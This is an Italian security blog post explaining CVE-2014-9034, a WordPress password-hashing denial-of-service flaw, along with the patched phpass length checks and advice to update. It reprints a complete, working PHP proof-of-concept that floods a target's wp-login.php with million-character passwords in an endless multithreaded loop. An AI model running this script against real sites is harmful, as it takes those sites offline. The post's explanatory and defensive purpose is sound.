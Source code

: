 ```yaml
---
layout: post
title: "Tesoro, si è rotto il blog"
modified: 2014-12-02 07:55:30 +0100
category: [Under attack]
tags: [wordpress, wordstress, blog, dos, exploit, CVE-2014-9034]
image:
  feature: ciuccio.png
  credit: Franca Gramola
  creditlink: https://flic.kr/p/6bZeJZ
comments: true
share: true
---
```


## Premesse e piccoli aggiornamenti

In questo mese e mezzo quasi di silenzio mi sono dedicato ad una dashboard per
i risultati di [wpscan](http://wpscan.org) che ho mostrato anche all'ultimo
Festival ICT nel mio talk.

Spinoff di questa dashboard è un tool,
[wordstress](https://github.com/thesp0nge/wordstress) che vuole essere
un'alternativa al più blasonato wpscan ma dedicato unicamente al test whitebox.

Il problema di wpscan, secondo me, è che provando a fare enumerazione dei
plugin e dei temi, poi fallisca nel rilevare la versione e quindi io mi trovo
un report con dei falsi positivi. Questi falsi positivi devono essere
analizzati e filtrati e questo si traduce in lavoro per l'appsec guy... che
sono io. Visto che la mia battaglia per i prossimi anni è "automatizzare
l'automatizzabile", questa parte di analisi voglio farla sparire.

Voglio quindi lavorare installando sul blog un plugin, che devo ancora
scrivere, che mi dica i plugin e i temi installati con l'esatta versione. Con
risultati più accurati io posso dedicarmi ad ammirare la dashboard e ad
indirizzare le reali vulnerabilità che vengono rilevate.

## L'effetto ciucciotto

Mia figlia Anna, e Daniele prima di lei, ama i suoi ciucci. Ci sono giorni che
non ne può fare a meno. Che cadano per terra, si intrufolino in pertugi o siano
lindi ed immacolati per lei non fa importanza. Il ciucciottamento felice è un
bel passatempo.

Ecco, [wordpress](https://wordpress.org) è come il ciucciotto di Anna; attira
vulnerabilità e issue di sicurezza con la velocità con la quale un ciucciotto
cadendo per terra attira batteri e bacilli.

> Volendo fare un'iperbole, wordpress è il windows delle applicazioni web.

In passato è stato martoriato, ora è un po' più robusto, ma a naso[^1] per una
versione X, escono almeno 3 issue di security al mese.

## CVE-2014-9034

Il 25 Novembre, è uscita la vulnerabilità
([CVE-2014-9034](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-9034))
che interessa le versioni di wordpress antecedenti alla 4.0.1. La classe
class-phpass.php non gestisce bene password lunghe durante la fase di hashing,
questo permette ad un attaccante di causare un denial of service facendo una
serie di richieste con password lunghe, facciamo dalle migliaia di caratteri in
su.

La PoC per sfruttare la vulnerabilità è disponibile in rete ed è molto
semplice: faccio una POST con una password di un milione di caratteri e ripeto
questa POST tante volte.



{% highlight php %}

<?php

echo "\nCVE-2014-9034 | WordPress <= v4.0 Denial of Service Vulnerability\n";
echo "Proof-of-Concept developed by john@secureli.com (http://secureli.com)\n\n";
echo "usage: php wordpressed.php domain.com username numberOfThreads\n";
echo " e.g.: php wordpressed.php wordpress.org admin 50\n\n";

echo "Sending POST data (username: " . $argv[2] . "; threads: " . $argv[3] . ") to " . $argv[1];

do {
 
$multi = curl_multi_init();
$channels = array();

for ($x = 0; $x < $argv[3]; $x++) {
	$ch = curl_init();

	$postData = array(
		'log' => $argv[2],
		'pwd' => str_repeat("A",1000000),
		'redirect_to' => $argv[1] . "/wp-admin/",
		'reauth' => 1,
		'testcookie' => '1',
		'wp-submit' => "Log%20In");

	$cookieFiles = "cookie.txt";

	curl_setopt_array($ch, array(
	    CURLOPT_HEADER => 1,
	    CURLOPT_USERAGENT => "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.8.1.6) Gecko/20070725 Firefox/2.0.0.6",
	    CURLOPT_REFERER => $argv[1] . "/wp-admin/",
	    CURLOPT_COOKIEJAR => $cookieFiles,
	    CURLOPT_COOKIESESSION => true,
	    CURLOPT_URL => $argv[1] . '/wp-login.php',
	    CURLOPT_RETURNTRANSFER => true,
	    CURLOPT_POST => true,
	    CURLOPT_POSTFIELDS => $postData,
	    CURLOPT_FOLLOWLOCATION => true));
    curl_multi_add_handle($multi, $ch);
 
    $channels[$x] = $ch;
}
 
$active = null;

do {
	$mrc = curl_multi_exec($multi, $active);
} while ($mrc == CURLM_CALL_MULTI_PERFORM);
 
while ($active && $mrc == CURLM_OK) {
    do {

        $mrc = curl_multi_exec($multi, $active);
    } while ($mrc == CURLM_CALL_MULTI_PERFORM);
}

foreach ($channels as $channel) {
    curl_multi_remove_handle($multi, $channel);
}
 
curl_multi_close($multi);
echo ".";
} while (1==1);

?>

{% endhighlight %}

Il problema è nella libreria [phpass](http://www.openwall.com/phpass) di Solar
Designer che quando esegue l'hash di una password lunga, usa troppa CPU.
[Stesso
problema](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-9016) che
ha afflitto Drupal di recente, visto che entrambi usano questa libreria.

La [versione corretta della libreria
phpass](https://github.com/WordPress/WordPress/blob/master/wp-includes/class-phpass.php),
introduce un controllo sulla lunghezza della password nella funzione
HashPassword.

{%highlight php%}
function HashPassword($password)
{
  if ( strlen( $password ) > 4096 ) {
    return '*';
  }
  $random = '';
  ...
{%endhighlight%}

Lo stesso controllo nella routine CheckPassword

{%highlight php%}
function CheckPassword($password, $stored_hash)
{
  if ( strlen( $password ) > 4096 ) {
    return false;
  }
  ...
{%endhighlight%}

Se quindi siete impossibilitati ad aggiornare Wordpress per qualche ragione
**incomprensibile** che **non** voglio neanche conoscere, potete fare patching
della libreria rimanendo alla versione di wordpress che avete installato.
Attenzione però, che questi due controlli rimediano solo questa issue, non le
[altre](http://openwall.com/lists/oss-security/2014/11/25/12).


Come si vede dal [post sulla mailing list per l'assegnazione dei
CVE](http://openwall.com/lists/oss-security/2014/11/25/12), ci sono altre issue
di security sempre censite lo stesso giorno e coperte dalla release 4.0.1 che,
ovviamente, è la soluzione ai problemi... di questo inizio di inverno.

## Off by one

Wordpress è bersagliato, complice il fatto di essere leader del mercato delle
piattaforme di blogging. Potrebbe essere un vanto questo. Il problema semmai è
nostro.

Aggiorniamo i nostri wordpress? Controlliamo i plugin ed i temi? Manteniamo il
nostro codice? Disaccoppiamo il codice custom dal core?

Se lo facciamo, sarà come dare sempre una rinfrescata al nostro ciucciotto.

Enjoy it!

**UPDATE**

So che il lettore fedele lo sa già, ma lanciare il poc su un blog che non si è
autorizzati a testare, è un reato da codice penale praticamente da ogni parte
del mondo.
Quindi, fatelo solo per test sui wordpress vostri o della società alla quale
appartenete.

[^1]: ho osservato un po' qualche versione, ma non ho fatto una statistica vera.
